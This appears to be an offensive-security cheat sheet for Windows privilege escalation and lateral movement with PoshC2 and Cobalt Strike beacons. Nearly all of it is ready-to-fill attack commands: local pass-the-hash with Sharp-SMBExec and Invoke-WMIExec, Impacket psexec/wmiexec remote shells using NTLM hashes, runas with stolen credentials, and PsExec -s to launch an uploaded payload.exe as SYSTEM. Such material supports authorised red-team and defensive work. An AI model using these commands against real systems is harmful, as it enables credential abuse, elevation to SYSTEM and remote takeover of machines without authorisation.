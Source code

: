 ##### _PoshC2 localhost Daisy Server:_
This method can be used to minimize egress by locally running the daisy server and execute the daisy payload via an arbitrary privesc vulnerability that allows for command/code execution\.
- 1\. Start daisy server in an already established low/medium integrity beacon and follow the wizard for configuration \(during configuration specify that you are NOT elevated and choose a high port that doesn't require elevated privileges\): `startdaisy`
- 2\. Do all the preparation and exploitation steps that are needed to successfully privesc and use the generated daisy payload\. 

##### _Local Pass-the-Hash to start beacon:_
This method can be used to start a high integrity process in the context of NT\\SYSTEM \(PSexec\) or local administrator \(WMIexec\) using pass\-the\-hash\. 
- From beacon:
	- Sharp PSexec: run command or verify local admin access \(if no command is specified, it checks local admin access\. Also the tool is slow so give it time\) \(for PoshC2: SharpInvoke\_SMBExec\.Program\) \([Sharp\-SMBExec](https://github.com/checkymander/Sharp-SMBExec)\) `Sharp-SMBExec.exe hash:"<hash>" username:"<username>" (domain:"<domain>") target:"127.0.0." (command:"<command>")`
	- PowerShell WMI: run elevated command \([Invoke\-WMIExec\.ps1](https://github.com/Kevin-Robertson/Invoke-TheHash)\): `Invoke-WMIExec -Target 127.0.0.1 (-Domain <domain name>) -Username <username> -Hash <NT hash> -Command "<command>" (-verbose)`
- From attacker system:
	- Start interactive shell on target system \([Impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 <psexec.py | wmiexec.py> (<FQDN>/)<username>(:<password>)@<target ip> (-hashes <NTLM>)`
	- Execute command without starting sesison \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 wmiexec.py -nooutput (-hashes :<NTLM>) ".\/Administrator"@<target ip> (<command to run>)`

##### _RunAs:_
This technique can be useful to run commands on the local system as another user\.
>The user must be the local Administrator account or a domain user with high privileges on the local system to make this work.\. 
- Cobalt Strike: `runas (<domain>\)<user> <password> <command> (<arguments>)`
- PoshC2: `runasps <domain or local netbios> <username> "<password>" "<command>"`

##### _From Restricted Administrator session to NT\\AUTHORITY SYSTEM:_
This technique can help to bypass a hardened environment where the local administrator is configured without the 'SeDebugPrivilege' privilege which makes migrating to a SYSTEM process otherwise impossible\.
- 1\. Upload the PsExec tool from Sysinternal and a payload\.exe to the system\. 
- 2\. Run commands as SYSTEM \(the \-s parameter will run any command as SYSTEM\): `.\PsExec64.exe -accepteula -s cmd /c "C:\users\public\documents\payload.exe"`

